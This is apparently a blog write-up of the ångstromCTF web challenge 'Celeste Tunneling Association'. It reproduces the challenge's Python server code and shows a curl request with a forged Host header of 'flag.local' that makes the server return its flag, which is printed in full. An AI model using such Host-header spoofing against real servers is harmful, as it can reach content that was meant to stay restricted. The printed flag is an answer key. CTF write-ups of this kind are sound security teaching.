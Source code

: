 ```yaml
---
author: "Asad Ullah"
title: "Celeste Tunneling Association - ångstromCTF"
description: 
summary: Write-up on web challenge Celeste Tunneling Association.
date: 2023-04-27T00:04:24+05:00
Section: write-ups
categories:
- writeup
- ctftime.org
tags:
- angstormctf
- web
- header
- curl
- flag

draft: false

---
```


{{< 
ctftime 
name="Celeste Tunneling Association" 
difficulty="Easy"  
points="40"
category="Web"
>}}

&nbsp;

&nbsp;

## Description

[Welcome to the tunnels!!](https://pioneer.tailec718.ts.net/) Have fun!

[Here's the source](https://files.actf.co/5b5169bad21a7256564e8d49103f2b97bb2d2db7cdf3446fe6c9e11f9500922e/server.py)

## Approach

We are provided with a website along with its source code.

&nbsp;

**Here is the Source Code:**

```python
# run via `uvicorn app:app --port 6000`
import os

SECRET_SITE = b"flag.local"
FLAG = os.environ['FLAG']

async def app(scope, receive, send):
    assert scope['type'] == 'http'

    headers = scope['headers']

    await send({
        'type': 'http.response.start',
        'status': 200,
        'headers': [
            [b'content-type', b'text/plain'],
        ],
    })

    # IDK malformed requests or something
    num_hosts = 0
    for name, value in headers:
        if name == b"host":
            num_hosts += 1

    if num_hosts == 1:
        for name, value in headers:
            if name == b"host" and value == SECRET_SITE:
                await send({
                    'type': 'http.response.body',
                    'body': FLAG.encode(),
                })
                return

    await send({
        'type': 'http.response.body',
        'body': b'Welcome to the _tunnel_. Watch your step!!',
    })
```

&nbsp;

By examining the source code, we can observe that the flag is stored as an environment variable and can be accessed if the condition **`if name == b"host" and value == SECRET_SITE:`** is satisfied.

To trigger the server to reveal the flag, we need to provide a single header with the name **`host`** and the value **`flag.local`**. Once the server receives this header, it will return the flag in response.

&nbsp;

```bash
┌──(kali㉿iasad)-[~/CTFs/angstorm]
└─$ curl -H "Host: flag.local" https://pioneer.tailec718.ts.net/    
 
actf{reaching_the_core__chapter_8}
```

&nbsp;

---

**Flag: `actf{reaching_the_core__chapter_8}`**

---

&nbsp;

&nbsp;
